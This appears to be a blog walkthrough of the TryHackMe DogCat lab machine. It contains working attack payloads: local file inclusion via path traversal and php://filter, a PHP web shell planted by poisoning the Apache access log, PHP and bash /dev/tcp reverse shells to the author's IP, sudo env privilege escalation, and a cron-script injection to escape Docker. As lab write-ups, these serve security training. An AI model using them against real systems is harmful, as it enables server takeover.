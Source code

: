 ```yaml
---
layout: post
title:  "THM Write-Up DogCat"
summary: Write-Up to the TryHackMe Machine DogCat
author: utnelson
date: '2022-02-14 11:17:23'
category: ['thm','write-up', 'medium']
thumbnail: \assets\img\posts\dogcat\title.png
keywords: dogcat, thm, box, easy, write-up, walkthrough, lfi, path, traversal, docker
permalink: /blog/write-up-dogcat/
---
```

Machine: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Enumeration

```console
root@machine:~$ nmap 10.10.64.63 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 22:30 CET
Nmap scan report for localhost (10.10.64.63)
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets check the port 80 with an running http server. 

![page](\assets\img\posts\dogcat\page.png)

The url looks interesting. `?view=cat`. Seems to be anything with LFI (local file inclusion). We could try to modify it with:    
`http://IPAdress/view=../../../../../../../etc/passwd`

We get an error:
![error](\assets\img\posts\dogcat\onlydogcat.png)

Just add `dog` in front the string. So it looks like this: `http://IPAdress/?view=dog/../../../../../../../etc/passwd`

A new error appears:

![error](\assets\img\posts\dogcat\newerror.png)

On [Hacktricks PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) I found something interesting. With the string: `php://filter/convert.base64-encode/resource=dog` we can see the source code of the `dog.php` in base64 encoding.

For decoding I used my running burpsuite.

![decodedog](\assets\img\posts\dogcat\decodedog.png)

```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```

This code prints just a random dog picture with every request. We can also look into the `php` code of the index.php. That is may more interesting.
Modify the string as follow: `?view=php://filter/convert.base64-encode/resource=dog/../index` and decode it again.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Nice! We can modify the `ext` variable and set it to none. So we can our payload from the first try again.
`http://IPAdress/?view=dog/../../../../../../../etc/passwd&ext=`

It's working. We can see the "/passwd" file. With burpsuite we have also a pretty good format.

![passwd](\assets\img\posts\dogcat\passwd.png)

From my enumeration I know this is running on a apache server. We may can look for log files.
We finaly can find the at `/var/log/apache2/access.log`

![log](\assets\img\posts\dogcat\log.png)

Our User-Agent Header is beeing inside the logfile. We may can modify it that it will be executed with our main.php file. We try at first:
`<?php system("ls")?>` Ooops. This endend a few times with fatal error and I was not able to view the logs again. So I have restartet the machine more than 3 times.  
Finally the User-Agent:`<?php system($_GET['cmd']);?>` and the GET string `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls` was fine and i was able to see the RCE.

![rce](\assets\img\posts\dogcat\rce.png)

So we just need to form a payload for a php reverse shell. I tried something new with the shell generator. [Generator](https://www.revshells.com/)

`php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'`

URL encoded: `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.14.20.70",9001)%3bshell_exec("/bin/sh+<%263+>%263+2>%263")%3b'`
We need to URL encode this string. In burpsuite pretty easy with `ctrl+u`. Set a listener up with and boom shell:

```console
root@machine:~$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.14.20.70] from localhost [10.10.21.32] 59000
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```
There we can find our first flag: `flag.php`

Flag 2 right next to it in the upper directory so only `cd..`

## Escalation

First try `sudo -l`

```console
sudo -l
Matching Defaults entries for www-data on 9e566ca216b3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 9e566ca216b3:
    (root) NOPASSWD: /usr/bin/env
```

Quick look to GTFObins and we find the way we can spawn a root shell.

`sudo env /bin/sh`

Boom root shell. Find the flag at `/root/flag3.txt`

## Escape docker

echo "/bin/sh -i >& /dev/tcp/10.14.20.70/9002 0>&1" >> backup.sh